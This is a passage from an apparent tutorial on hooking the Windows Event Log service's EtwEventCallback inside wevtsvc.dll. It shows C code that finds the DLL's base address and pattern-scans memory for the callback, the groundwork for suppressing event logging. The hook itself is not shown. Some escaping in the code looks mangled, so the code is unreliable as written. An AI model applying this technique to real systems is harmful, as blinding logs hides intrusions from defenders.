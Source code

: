 The first thing we need to do is find the offset of `wevtsvc!EtwEventCallback` so we know where to place the hook. The first step in doing that is locating the base address of `wevtsvc.dll` the code below will do that and store it in the `dwBase` variable.

```
DWORD_PTR dwBase;
DWORD     i, dwSizeNeeded;
HMODULE   hModules[102400];
TCHAR     szModule[MAX_PATH];

if (EnumProcessModules(GetCurrentProcess(), hModules, sizeof(hModules), &dwSizeNeeded))
{
\	for (int i = 0; i < (dwSizeNeeded / sizeof(HMODULE)); i++)
\	{
\	\	ZeroMemory((PVOID)szModule, MAX_PATH);

\	\	if (GetModuleBaseNameA(GetCurrentProcess(), hModules[i], (LPSTR)szModule, sizeof(szModule) / sizeof(TCHAR)))
\	\	{
\	\	\	if (!strcmp("wevtsvc.dll", (const char*)szModule))
\	\	\	{
\	\	\	\	dwBase = (DWORD_PTR)hModules[i];
\	\	\	}
\	\	}
\	}
}
```

Since we do not know the exact location of `EtwEventCallback` we will need to search memory for it. We know that its in the address space of `wevtsvc.dll` which is why we had to find its base address.

We can use the disassembly from windbg to see the bytes at the start of the callback. We can then scan memory until we find these bytes. Once we have we will know where to place the hook.

![](images/pattern.png)

This code will search `0xfffff` bytes past the base address of `wevtsvc.dll` for the pattern `4883ec384c8b0d`

```
#define PATTERN "\\x48\\x83\\xec\\x38\\x4c\\x8b\\x0d"

DWORD i;
LPVOID lpCallbackOffset;

for (i = 0; i < 0xfffff; i++)
{
    if (!memcmp((PVOID)(dwBase + i), (unsigned char*)PATTERN, strlen(PATTERN)))
    {
        lpCallbackOffset = (LPVOID)(dwBase + i);
    }
}
```
